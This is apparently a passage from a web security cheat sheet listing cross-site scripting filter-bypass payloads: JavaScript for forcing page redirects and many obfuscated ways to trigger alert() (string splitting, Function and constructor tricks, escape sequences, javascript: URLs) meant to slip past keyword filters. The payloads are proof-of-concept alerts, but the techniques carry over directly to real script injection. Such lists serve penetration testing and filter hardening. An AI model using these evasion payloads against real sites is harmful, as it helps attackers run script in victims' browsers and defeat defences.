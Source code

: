 Bypass using an alternate way to redirect

```javascript
location="http://google.com"
document.location = "http://google.com"
document.location.href="http://google.com"
window.location.assign("http://google.com")
window['location']['href']="http://google.com"
```

Bypass using an alternate way to execute an alert - [@brutelogic](https://twitter.com/brutelogic/status/965642032424407040)

```javascript
window['alert'](0)
parent['alert'](1)
self['alert'](2)
top['alert'](3)
this['alert'](4)
frames['alert'](5)
content['alert'](6)

[7].map(alert)
[8].find(alert)
[9].every(alert)
[10].filter(alert)
[11].findIndex(alert)
[12].forEach(alert);
```

Bypass using an alternate way to execute an alert - [@404death](https://twitter.com/404death/status/1011860096685502464)

```javascript
eval('ale'+'rt(0)');
Function("ale"+"rt(1)")();
new Function`al\ert\`6\``;

constructor.constructor("aler"+"t(3)")();
[].filter.constructor('ale'+'rt(4)')();

top["al"+"ert"](5);
top[8680439..toString(30)](7);
top[/al/.source+/ert/.source](8);
top['al\x65rt'](9);

open('java'+'script:ale'+'rt(11)');
location='javascript:ale'+'rt(12)';

setTimeout('ale'+'rt(2)');
setInterval('ale'+'rt(10)');
Set.constructor('ale'+'rt(13)')();
Set.constructor`al\x65rt\x2814\x29```;
```
